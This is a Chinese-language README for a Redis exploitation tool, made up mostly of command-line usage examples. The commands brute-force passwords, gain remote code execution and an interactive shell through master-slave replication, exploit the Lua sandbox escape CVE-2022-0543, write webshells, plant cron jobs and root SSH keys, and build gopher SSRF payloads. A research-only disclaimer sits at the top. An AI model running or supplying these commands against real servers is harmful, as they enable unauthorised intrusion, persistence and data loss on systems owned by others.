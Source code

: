 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

爆破 Redis 密码:
RedisExp.exe brute -r 192.168.19.1 -f pass.txt

主从复制执行命令 (默认是交互式 shell):
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -c whoami (单次执行)
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -f exp.so (Linux)

主从复制文件上传 (windows 中文需要设置gbk):
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -d c:\\中文\\ -f shell.php -F shell.txt -g
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -f shell.php -F shell.txt

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe lua -r 192.168.19.6 -c whoami

备份写 Webshell (Windows 中文路径要设置gbk, linux 中文路径不用设置):
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "<?php phpinfo();?>" -g

Linux 写计划任务:
RedisExp.exe cron -r 192.168.19.1 -L 127.0.0.1 -P 2222

Linux 写 SSH 公钥:
RedisExp.exe ssh -r 192.168.19.1 -u root -s "ssh-rsa AAAAB"

执行 Redis 命令:
RedisExp.exe cli -r 192.168.19.1

生成 gopher ssrf redis payload: 
RedisExp.exe gopher -f 1.txt

```



1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
3. Windows 中文路径需要设置gbk，使用 -g 参数就可以了。



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher

 

